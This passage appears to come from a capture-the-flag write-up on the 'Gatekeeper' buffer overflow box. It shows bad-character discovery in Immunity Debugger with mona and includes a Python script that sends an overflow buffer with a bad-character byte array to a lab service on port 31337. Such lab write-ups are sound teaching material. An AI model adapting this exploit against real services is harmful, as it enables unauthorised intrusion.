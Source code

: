 ```
enter above command in immunity debugger in crash state as we all know \x00 is always in bad char that's why we specify this.

![bytearray00](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/bytearray00.png)

Now i do a google search for bad chars and found all possible bad character i got a [reddit](https://www.reddit.com/r/python_netsec/comments/57gswn/generate_all_hex_chars_to_find_badchars/) page that have all bad char listed with a script too.

![hex_badchar](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/hex_badchar.png)

copy the all bad char or use the script to genrate bad char and set in payload variable in out exploit.py script we created before remember if you copy the bad char then it contains space may be they give us some issue. In my case i am using python script we got on reddit for generating bad char.

![badchar_result](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/badchar_result.png)

Updated script=>

```
import socket

ip = "192.168.226.129"
port = 31337

offset = 146
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

buffer = overflow + retn + padding + payload

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  ```

Restart the Immunity Debugger and re-attach gatekeeper script and run the script.

![ESP-addrs-findbadchar](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/ESP-addrs-findbadchar.png)

The program got crashed check for bad char using below command on immunity debugger.

```!mona compare -f "C:\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin" -a 00a719e4```

  ```